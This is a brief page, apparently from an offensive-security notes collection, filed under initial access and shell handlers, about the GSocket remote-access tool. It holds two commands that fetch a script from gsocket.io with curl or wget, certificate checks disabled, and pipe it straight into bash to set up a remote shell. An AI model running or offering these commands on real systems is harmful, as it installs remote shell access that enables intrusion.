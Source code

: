 # GSocket

```
$ bash -c "$(curl -fsSLk https://gsocket.io/y)"

$ bash -c "$(wget --no-check-certificate -qO- https://gsocket.io/y)"
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xC - Shell Handler/Cross Platform/Manual/Netcat Variants/GSocket|GSocket]]